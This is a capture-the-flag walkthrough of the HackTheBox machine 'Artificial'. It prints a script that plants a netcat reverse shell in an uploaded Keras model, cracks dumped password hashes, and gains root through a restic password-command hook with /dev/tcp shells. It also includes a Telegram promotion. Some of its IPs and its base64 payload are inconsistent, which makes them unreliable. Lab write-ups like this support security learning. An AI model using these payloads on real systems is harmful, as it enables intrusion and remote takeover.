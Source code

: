 
---
layout: default
title: Artificial [EN]
---


**Platform:** Linux\
**IP:** 10.129.70.3\
**Difficulty:** Easy\
**Author:** NoSec

> 🚨 **Follow the HTB grind in real-time — leaks, drops, and deep writeups**  
> 👉 [t.me/nosecpwn](https://t.me/nosecpwn)  
> _Don't read. Join._

---

## Recon

```bash
nmap -sC -sV -T4 10.129.70.3

Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-24 14:07 CEST
Nmap scan report for artificial.htb (10.10.11.74)
Host is up (0.045s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Artificial - AI Solutions
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.15 seconds
```

**/etc/hosts edit:**
```bash
echo "10.10.11.74 artificial.htb" | sudo tee -a /etc/hosts
```

---

## Web Enumeration

The website provides login and registration functionality. After signing up, it allows uploading `.h5` files.

### Generating a malicious TensorFlow model(tenserflow-cpu==2.13.1 a required)

```python
# model_gen.py
import tensorflow as tf
import os

def exploit(x):
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.44 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("nosechere.h5")
```

**Docker command:**
```bash
sudo docker run -it --rm -v "$PWD":/app -w /app tensorflow/tensorflow:2.13.0 python3 model_gen.py
```

After uploading:
```bash
nc -lvnp 4444
```

---

## SQLite Database Enumeration

```bash
find / -type f \( -name "*.db" -o -name "*.sqlite3" \) 2>/dev/null
```

Found: `/home/app/app/instance/users.db`

```bash
sqlite3 /home/app/app/instance/users.db
.tables
.schema user
SELECT * FROM user;
```

### Cracking hashes (raw-md5):

```bash
john --format=raw-md5 hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Example results:
```
mattp005
marwinn
```

---

## Privilege Escalation (Backup leak)

Using the `redteam-launcher` to check backups(https://github.com/No4Sec/redteam-launcher):
```
/var/backups/backrest_backup.tar.gz
```

**Download via HTTP server:**
```bash
cd /var/backups
python3 -m http.server
```

**On Kali:**
```bash
wget http://10.129.70.3:8000/backrest_backup.tar.gz
```

**Extract:**
```bash
tar -xvf backrest_backup.tar.gz
```

**config.json:**
```json
{
  "auth": {
    "users": [
      {
        "name": "backrest",
        "passwordBcrypt": "$2a$10$..."
      }
    ]
  }
}
```

Base64 decode:
```bash
cat hash.txt | base64 -d
```

John bcrypt:
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

---

## Local RESTIC Web UI (port 9898)

```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

After port forwarding, we can access the Backrest login page. Use the dumped credentials to log in and create a new repo.

**Environment variable exploit:**
```bash
RESTIC_PASSWORD_COMMAND=bash -c 'bash -i >& /dev/tcp/10.10.xx.xxx/4444 0>&1'
```

**Important:** for the `Hook` field, use:
```bash
RESTIC_PASSWORD_COMMAND=echo 'YmFzaCAtaSAmJiAvZGVyL3RjcC8xMC4xNi4xMzUvNDQ0NCAwPiYxCg==' | base64 -d | bash
```

**Flag:** `ON_ERROR_IGNORE`

**Why base64?** Because the input field tends to break special characters. Encoding helps to deliver the payload cleanly.

```bash
echo 'bash -i >& /dev/tcp/10.10.xx.xx/4444 0>&1' | base64
```

Then submit, and we get a root shell back:
```bash
nc -lvnp 4444
```
```bash
(root㉿NoSec)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.74] 50526
bash: cannot set terminal process group (28638): Inappropriate ioctl for device
bash: no job control in this shell
root@artificial:/# cd root
cd root
root@artificial:~# ls
ls
root.txt
scripts
root@artificial:~# 
```

---

## 🧩 Summary

Artificial is an easy but creative machine combining multiple exploitation vectors:

- Remote shell via malicious machine learning model
- Hash extraction from SQLite database
- Bcrypt hash found in backup archive
- RESTIC environment variable leading to RCE and root shell

The `.h5` TensorFlow model with embedded code execution and the RESTIC hook exploit were both unique highlights of the box.

**Key takeaways:**
- Never trust user-uploaded files
- Avoid running backup services as root
- Always inspect `.tar.gz` files — they may contain secrets :)

---

🎯 Rooted. Moving on to the next one. //

